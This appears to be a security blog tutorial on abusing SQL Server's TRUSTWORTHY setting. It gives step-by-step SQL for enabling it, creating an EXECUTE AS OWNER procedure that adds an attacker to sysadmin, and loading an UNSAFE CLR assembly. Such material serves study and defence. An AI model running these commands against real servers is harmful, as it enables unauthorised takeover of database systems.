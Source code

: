 ```yaml
---
title: 'Exploiting SQL Server TRUSTWORTHY Property: From Database Access to sysadmin'
published: 2025-04-22
description: 'Deep dive into TRUSTWORTHY property exploitation, demonstrating how attackers leverage this setting for privilege escalation and full database server compromise'
image: ''
tags: [ Windows PrivEsc]
category: 'Privilege Escalation'
draft: false 
lang: 'ar-eng'
---
```


# Understanding the TRUSTWORTHY Property in SQL Server

## Table of Contents
- [Why is TRUSTWORTHY Dangerous?](#why-is-trustworthy-dangerous)
- [Exploit Scenario: Step-by-Step Breakdown](#exploit-scenario-step-by-step-breakdown)
  - [Step 1: Check the TRUSTWORTHY Property](#step-1-check-the-trustworthy-property)
  - [Step 2: Enable TRUSTWORTHY (If Not Already Enabled)](#step-2-enable-trustworthy-if-not-already-enabled)
  - [Step 3: Create a Privilege Escalation Stored Procedure](#step-3-create-a-privilege-escalation-stored-procedure)
  - [Step 4: Execute the Privilege Escalation Stored Procedure](#step-4-execute-the-privilege-escalation-stored-procedure)
  - [Step 5: Verify the Privilege Escalation](#step-5-verify-the-privilege-escalation)
- [Advanced Exploitation](#advanced-exploitation)
  - [Using CLR Assemblies for Privilege Escalation](#using-clr-assemblies-for-privilege-escalation)
- [Summary of Exploitation Steps](#summary-of-exploitation-steps)

---

The **TRUSTWORTHY** property in SQL Server is a security setting that determines whether a database is considered "trusted" by SQL Server. When **TRUSTWORTHY** is set to `ON`, SQL Server grants the database the ability to execute certain actions with the privileges of the database owner (DBO). This includes running **CLR (Common Language Runtime) assemblies** and accessing server-level resources that are usually restricted.

### Why is TRUSTWORTHY Dangerous?

When **TRUSTWORTHY** is enabled, SQL Server allows the execution of potentially dangerous operations that could elevate the privileges of an attacker. This is because:

1. **CLR Assemblies**: These can be used to run external code, and if **TRUSTWORTHY** is enabled, CLR assemblies can execute with the privileges of the database owner. An attacker can use this to run malicious code on the server.
2. **Stored Procedures**: The ability to create stored procedures with `EXECUTE AS OWNER` means that an attacker can escalate their privileges by creating and executing code that runs with the DBO’s privileges.
3. **Access to Server Resources**: Enabling **TRUSTWORTHY** also allows certain server-level operations to be performed from within the database, which would otherwise be restricted.

---

### Exploit Scenario: Step-by-Step Breakdown

#### Step 1: Check the TRUSTWORTHY Property

To determine whether the **TRUSTWORTHY** property is enabled, an attacker can query the `sys.databases` system catalog view:

```sql
SELECT name, is_trustworthy_on
FROM sys.databases
WHERE name = 'YourDatabaseName';
```

- `is_trustworthy_on = 1` means the property is enabled.
- `is_trustworthy_on = 0` means the property is disabled.

#### Step 2: Enable TRUSTWORTHY (If Not Already Enabled)

If the **TRUSTWORTHY** property is not enabled, and the attacker has sufficient privileges (such as `db_owner`), they can enable it:

```sql
ALTER DATABASE [YourDatabaseName] SET TRUSTWORTHY ON;
```

Once enabled, this allows the database to execute code with the privileges of the database owner, which could include elevated system privileges.

#### Step 3: Create a Privilege Escalation Stored Procedure

Next, the attacker can create a stored procedure that escalates their privileges. The key here is using the `EXECUTE AS OWNER` clause, which makes the stored procedure execute with the privileges of the database owner (DBO).

Here’s an example stored procedure that adds a user to the `sysadmin` server role:

```sql
CREATE PROCEDURE dbo.EscalatePrivilege
WITH EXECUTE AS OWNER
AS
BEGIN
    EXEC sp_addsrvrolemember 'attacker_username', 'sysadmin';
END;
```

- `EXECUTE AS OWNER` ensures that the stored procedure runs with the DBO's privileges, which is crucial for privilege escalation.
- `sp_addsrvrolemember` is a system stored procedure that adds a user to a server-level role, in this case, `sysadmin`.

#### Step 4: Execute the Privilege Escalation Stored Procedure

Once the procedure is created, the attacker can execute it:

```sql
EXEC dbo.EscalatePrivilege;
```

This will add the attacker’s username to the `sysadmin` role, effectively granting them full administrative privileges over the SQL Server instance.

#### Step 5: Verify the Privilege Escalation

To verify that the attacker has successfully escalated their privileges, they can check if their user is now part of the `sysadmin` role:

```sql
SELECT name
FROM sys.server_principals
WHERE is_srvrolemember('sysadmin') = 1;
```

This will return a list of users who are members of the `sysadmin` role. If the attacker’s username is listed, they have successfully escalated their privileges.

---

### Advanced Exploitation

#### Using CLR Assemblies for Privilege Escalation

In addition to stored procedures, attackers can exploit **CLR assemblies** to escalate privileges. CLR assemblies are .NET code modules that can be executed inside SQL Server. When **TRUSTWORTHY** is enabled, attackers can load and execute arbitrary CLR code with the privileges of the database owner.

1. **Create a Malicious CLR Assembly**: The attacker can create a malicious CLR assembly that performs actions like adding a user to the `sysadmin` role or executing system commands.
2. **Load the CLR Assembly into SQL Server**: After compiling the CLR code, the attacker can load it into SQL Server using the following commands:

```sql
CREATE ASSEMBLY MaliciousAssembly
FROM 'C:\Path\To\MaliciousAssembly.dll'
WITH PERMISSION_SET = UNSAFE;
```

3. **Execute the Malicious Code**: Once the assembly is loaded, the attacker can execute it from SQL Server, which will run with the privileges of the database owner.

---

### Summary of Exploitation Steps

1. **Check the TRUSTWORTHY property**: Ensure it is enabled.
2. **Enable TRUSTWORTHY** (if not already enabled) using `ALTER DATABASE`.
3. **Create a stored procedure** with `EXECUTE AS OWNER` to escalate privileges.
4. **Execute the stored procedure** to add the attacker to the `sysadmin` role.
5. **Verify privilege escalation** by checking the `sysadmin` role membership.
```

